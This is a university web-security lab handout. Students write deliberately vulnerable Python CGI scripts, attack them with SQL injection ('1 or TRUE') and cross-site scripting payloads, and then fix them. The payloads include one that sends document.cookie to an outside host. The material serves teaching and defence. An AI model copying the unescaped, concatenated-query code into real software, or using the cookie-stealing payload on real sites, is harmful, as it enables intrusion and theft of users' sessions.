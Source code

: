 * Introduction

This week we will continue on Web vulnerabilities. I know that many of you did not complete Lab06. So this lab will replace the last part of that lab.

* CGI scripting

CGI-Scripting is the simplest way to create functionality in a webserver. Any more complex technology (such as Ruby on Rails) is based on CGI.

Read about CGI here: http://www.tutorialspoint.com/python/python_cgi_programming.htm

There are two ways for a client to send information to a CGI-script: one of them is POST and the other GET. Go back to the URL above and make sure you
understand what POST and GET are used for. For example, go to amazon.ca and search for a product. Does Amazon search use GET or POST? What about google.ca?

* Setup

For this lab we will need to use the machine roberts.seng.uvic.ca. Login in to it. In this machine go to the directory =/web/seng360/=. In here there should be
a directory with your username (for example, in my case, there is one called =/web/seng360/dmg/=.

Let us make sure things work. First create a file called =test.html= in this directory (i.e. =/web/seng360/<youruserid>/test.html=) that contains the following:


#+begin_example
<H1>Test</h1>

This is a test.
#+end_example

This has created a web page that should be found at: http://roberts.seng.uvic.ca/seng360/userid/test.html (replace userid with your userid).

If things are working properly, you  should be browsing the contents of this page.

It will be a good idea to monitor the error logs of the web server in case your Web pages or scripts do not work. They are located in the =roberts.seng.uvic.ca=
in directory =/web/seng360/logs/error_log=. In my opinion the easiest way to do this is by opening a window to =roberts= and executing:

#+begin_example
tail -f /web/seng360/logs/error_log 
#+end_example



* Part 1: SQL

** Creating =sqlForm.html=


First we need to create a Web form. This will gather information that will passed to our script. Read about HTML forms here: http://zipcon.net/~swhite/docs/computers/web/QuickHTML/Forms.html

Create a file called =sqlForm.html=

#+begin_src html
<h1>This a form to test our SQL script</h1>

<h3>This is a GET form</h3>
<form action="sql.py" method="get">
id: <input type="text" name="id"><br>
<input type="submit" value="Submit">
</form>

<h3>This is a POST form</h3>

<form action="sql.py" method="post">
id: <input type="text" name="id"><br>
<input type="submit" value="Submit">
</form>


#+end_src

Test it. Its url is http://roberts.seng.uvic.ca/seng360/userid/sqlForm.html (replace userid with your userid).

It should look something like this:

[[./sqlForm.png]]


** The Python script

We will now create the CGI script that responds to this form.

I have setup a mysql database in one of my computers. The Lab instructor will give you the details (hostname, username and password). Create a Python CGI-script
called =sql.py= with the following contents:

#+begin_src python
#!/usr/bin/python

import MySQLdb
import cgi, cgitb 


print "Content-type: text/html"
print ""

hostname="askLabInstructor"
username="seng360"
passwd = "askLabInstructor"
# Open database connection

try:
   db = MySQLdb.connect(hostname,username,passwd,"seng360" )
except:
   print "<h1>Unable to connect to database</h1>"
   exit

# Create instance of FieldStorage 
form = cgi.FieldStorage() 

if "id" not in form:
    print "<H1>Error please use the form and</H1>"
    print "Please fill in the <b>id</b> field."
    exit


id = form.getvalue('id')

# prepare a cursor object using cursor() method
cursor = db.cursor()

# Prepare SQL query to INSERT a record into the database.
sql = "SELECT id, field from test where id = "  + id




print "<h3>query to evaluate: "+sql + "</h3"

try:

   # Execute the SQL command
   cursor.execute(sql)
   # Fetch all the rows in a list of lists.
   results = cursor.fetchall()

   print "<h3>Results for </h3>"
   print "<table border = 1>"
   for row in results:
      id = row[0]
      field = row[1]
      print "<tr><td>id=%d</td><td>field=%d</td></tr>" % \
          (id,field)
   print "</table>"

except:
   print "<h1>Error: unable to fetch data for id = [" + id + "]</h1>"


#+end_src


** Test the script

Load =sqlForm.html" again in your browser. Test  it with any of the following values: 1,5,10. Try both forms. Answer the following questions:

*Q1: What is the difference between using a POST and GET form to call a CGI-script* 

and

*Q2: Is one form more secure than the other? Explain*  (hint, look at the URL of the script)

*Q3: Is it really more secure? Explain*


** Do the injection attack

Reload the form. Use  the following as the value for id:

#+begin_src
1 or TRUE
#+end_src

As you can see, we now get all the values in the table. 

*Q4: Explain why the new value of =id= tricks our form and is able to retrieve all the tuples in the table.*

** Fix the script

Injection attacks are common in SQL, hence libraries have learned to deal with them. Learn how to address it. In general the best method is using prepared
statements. The Python-MySQL library we are using does not support prepared statements, but it is capable of dealing with this problem. See this question in
Stack Overflow: http://stackoverflow.com/questions/7929364/python-best-practice-and-securest-to-connect-to-mysql-and-execute-queries

Fix your script. Test your script until the attack is no longer effective.

* Part2 Cross-scripting attacks

Cross-scripting attacks are another common way to Web applications.

For this part of the assignment make sure that you use <b>Firefox</b>.

** Create another form

Create a Web page called =formXSS.html= with the following contents:

#+begin_src html
<h1>Cross scripting attack</h1>

This form will help us test cross-scripting attacks.

<form action="xssSimple.py" method="get">
User: <input type="text" name="user"><br>
<input type="hidden" name="notshown" value="abc"><br>
<input type="submit" value="Submit">
</form>
#+end_src

Test it.

** Create the script that will respond to this form

Create a script =xssSimple.py= that will respond to the form. Its contents should be:

#+begin_src python
#!/usr/bin/python

import cgi, cgitb 

print "Content-type: text/html"
print ""

# Create instance of FieldStorage 
form = cgi.FieldStorage() 
user = form.getvalue('user')

if "user" not in form:
    print "<H1>Error</H1>"
    print "Please fill in the <b>user</b> field."
    exit

print "<h1>Example of Simple Cross Scripting attack</h3>"
print "Hello [" + user + "]"
#+end_src

** Test the script

Test the script by submitting a value in the field =user= and submitting the form.

** A simple attack

In the form, submit the following (in the field =user=)

#+begin_src
<font color=red><b>dmg</b></font>
#+end_src

then try this:

#+begin_src
<h1>dmg</h1>
#+end_src

*Q5: Explain why the effect of the attack*

** A more active attack

Are you using <b>Firefox</b>? If not, then do. This next attack requires Firefox.

Input the following value in the /user/ field and hit submit again:

#+begin_src
<script>alert('attacked');</script>
#+end_src

** Stealing cookies

Create a script that sets a cookie. Call this script =cookies.py=

#+begin_src python
#!/usr/bin/env python

import cgi, cgitb 

import time, Cookie

# Instantiate a SimpleCookie object
cookie = Cookie.SimpleCookie()

# The SimpleCookie instance is a mapping
cookie['seng360'] = str(time.time())

# Output the HTTP message containing the cookie
#print cookie
print 'Content-Type: text/html\n'

# Create instance of FieldStorage 
form = cgi.FieldStorage() 
user = form.getvalue('user')

if "user" not in form:
    print "No <b>user</b> field has been set."
else:
   print "<h3>Hello [" + user + "]"
   print "</h3>"


print '<br><hr>'
print 'Server time is', time.asctime(time.localtime())
print '</body></html>'
#+end_src

Load the script. Now inspect the cookies in your browser to make sure the cookie was set. (In Firefox you can find the cookies in
/Preferences/Privacy/History/Remove Individual Cookies/ Make sure the cookie was set.

Let us create another web page to test it. This time we will call it =cookies.html=

#+begin_src html
<h1>Cross scripting attack</h1>

This form will help us test cross-scripting attacks.

<form action="cookies.py" method="get">
User: <input type="text" name="user"><br>
<input type="hidden" name="notshown" value="abc"><br>
<input type="submit" value="Submit">
</form>
#+end_src

Test it. It should behave as expected

** Stealing the cookie

Now pass the following string in the user field:

#+begin_example
<a href="cookies.py" onClick="javascript:document.location.replace('http://turingmachine.org/text' + escape(document.cookie)); return false;">my name</a>
#+end_example

As you can see, the location where the /Name/ should be displayed is now replaced with a link. Follow it. Look at the resulting URL. This URL does not exist,
but inspect the URL that you were trying to retrieve.

*Q6: What URL is displayed when the mouse is hovered over the link?*

*Q7: What is the full URL that is actually the link is followed? Why is this an attack?*


* Part3 Cross-scripting attacks using Chromium

Try the same attacks on Chromium.

*Q8: Which of the attacks did not succeed when using Chromium?*

* Part 4

Fix the vulnerabilities in your scripts. Hint: see cgi.escape in https://docs.python.org/2/library/cgi.html

* What to submit

Submit a zip file that contains:

- Your scripts
- Your HTML


